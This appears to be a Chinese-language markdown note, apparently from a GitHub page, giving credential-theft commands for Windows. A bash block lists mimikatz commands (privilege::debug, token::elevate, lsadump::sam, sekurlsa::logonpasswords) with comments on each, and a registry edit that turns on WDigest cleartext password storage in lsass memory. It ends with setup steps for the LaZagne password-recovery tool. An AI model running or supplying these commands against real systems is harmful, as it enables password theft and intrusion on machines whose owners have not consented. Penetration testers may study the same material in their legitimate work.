










## 简介





```bash
log res.txt //将日志信息写入该文件
privilege::debug //修改自己进程的权限提权，windows2012以上禁止明文存储在lsass.exe内存中，因此不能直接获取明文密码
###但是可以利用修改Wdigest注册表要求明文存储在lsass.exe内存中
##开启
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
##关闭
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
###

token::elevate //利用其它进程的权限给自己提权
lsadump::sam  //列出sam
sekurlsa::logonpasswords //列出当前系统中已经登录的（或以前登录过且相关信息还存储在内存中）所有用户的密码及其明文
```


















LaZagne需要有python3的环境，并且需要安装其依赖。

```bash
pip install -r requirements.txt
python3 ./LaZagne   //运行该命令会显示可用的options
```

